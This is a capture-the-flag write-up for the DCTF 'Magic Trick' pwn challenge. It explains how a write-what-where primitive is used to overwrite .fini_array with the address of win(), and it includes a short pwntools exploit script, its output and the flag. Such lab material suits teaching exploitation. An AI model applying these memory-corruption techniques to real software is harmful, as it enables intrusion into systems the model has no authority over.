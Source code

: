## Magic Trick (300 Points)

### Problem  
```  
How about a magic trick?  
nc dctf-chall-magic-trick.westeurope.azurecontainer.io 7481

File: magic_trick  
```

### Solution  
Let me start by saying, I think I solved this chall by blind luck of stumbling
on a writeup for a similar style Pwn challenge.

Anyway, firstly, I ran `checksec` to see what I was dealing with.

```  
❯ pwn checksec magic_trick  
[*] '~/ctf/dctf/magic_trick'  
   Arch:     amd64-64-little  
   RELRO:    No RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

I opened the binary in Ghidra and inspected the important functions -
`main()`, `magic()`, and `win()`.

We need to get from `magic()` to `win()` without any overflows this time.

We're prompted twice for input - something to write, and a place to write it.
I'm not really sure where to go with this so I do some searching of old CTF
writeups to see if I can see anything similar.

```c  
puts("What do you want to write");  
__isoc99_scanf(&DAT_00400823,&local_28);  
puts("Where do you want to write it");  
__isoc99_scanf(&DAT_00400823,&local_20);  
```

I came across [this
writeup](https://github.com/guyinatuxedo/ctf/tree/master/tokyowesterns16/pwn/greeting)
where the author is prompted for input and there's a bunch of pointers with no
way to overflow. The author mentions that as the binary is not RELRO enabled,
they can write to the GOT Table and as PIE isn't enabled, they can see the
addresses of the GOT table. We're in the same scenario!

The author eventually goes on to mention that as a buffer overflow isn't
possible due to `__stack_chk_fail()`, they can instead write to `.fini_array`.

So, with that, I went and got the address of `.fini_array` in Ghidra
(`0x00600a00`), and then I went and got the address of `win()` in
Ghidra(`0x00400667`).

The program asks us what we write, and where we want to write it - it kind of
makes sense to me to write the `win()` address to the `.fini_array` address.  
Let's write some Python to do that for us...

```python  
from pwn import *

host = remote('dctf-chall-magic-trick.westeurope.azurecontainer.io', 7481)

win_addr = str(0x00400667)  
fini_addr = str(0x00600a00)

host.recv()  
host.sendline(win_addr)  
host.recv()  
host.sendline(fini_addr)

host.interactive()  
```

```  
❯ python3 exploit.py  
[+] Opening connection to dctf-chall-magic-trick.westeurope.azurecontainer.io
on port 7481: Done  
[*] Switching to interactive mode  
thanks  
You are a real magician  
dctf{1_L1k3_M4G1c}  
[*] Got EOF while reading in interactive  
$  
```

On one hand I'm glad I got the flag here, but I don't fully understand **why**
this was the right thing to do. It's something I'll build on in the next few
CTFs, I'm sure.

Flag: `dctf{1_L1k3_M4G1c}`  

Original writeup
(https://github.com/cieran/writeups/blob/main/DragonCTF/pwn/MagicTrick.md).